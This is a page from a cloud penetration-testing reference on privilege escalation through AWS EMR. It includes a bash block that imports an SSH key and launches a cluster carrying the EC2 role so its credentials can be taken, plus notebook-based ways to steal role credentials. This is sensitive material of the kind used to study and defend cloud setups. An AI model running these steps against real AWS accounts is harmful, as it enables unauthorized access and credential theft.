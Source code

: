 # AWS - EMR Privesc

## EMR

More **info about EMR** in:

[[../aws-services/aws-emr-enum.md]]

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

An attacker with these permissions can **run a new EMR cluster attaching EC2 roles** and try to steal its credentials.\
Note that in order to do this you would need to **know some ssh priv key imported in the account** or to import one, and be able to **open port 22 in the master node** (you might be able to do this with the attributes `EmrManagedMasterSecurityGroup` and/or `ServiceAccessSecurityGroup` inside `--ec2-attributes`).

```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
    --key-name "privesc" \
    --public-key-material file:///tmp/pub.key


aws emr create-cluster \
    --release-label emr-5.15.0 \
    --instance-type m4.large \
    --instance-count 1 \
    --service-role EMR_DefaultRole \
    --ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```

Note how an **EMR role** is specified in `--service-role` and a **ec2 role** is specified in `--ec2-attributes` inside `InstanceProfile`. However, this technique only allows to steal the EC2 role credentials (as you will connect via ssh) but no the EMR IAM Role.

**Potential Impact:** Privesc to the EC2 service role specified.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

With these permissions an attacker can go to the **AWS console**, create a Notebook and access it to steal the IAM Role.

> [!CAUTION]
> Even if you attach an IAM role to the notebook instance in my tests I noticed that I was able to steal AWS managed credentials and not creds related to the IAM role related.

**Potential Impact:** Privesc to AWS managed role arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Just with this permission an attacker will be able to access the **Jupyter Notebook and steal the IAM role** associated to it.\
The URL of the notebook is `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

> [!CAUTION]
> Even if you attach an IAM role to the notebook instance in my tests I noticed that I was able to steal AWS managed credentials and not creds related to the IAM role related

**Potential Impact:** Privesc to AWS managed role arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile


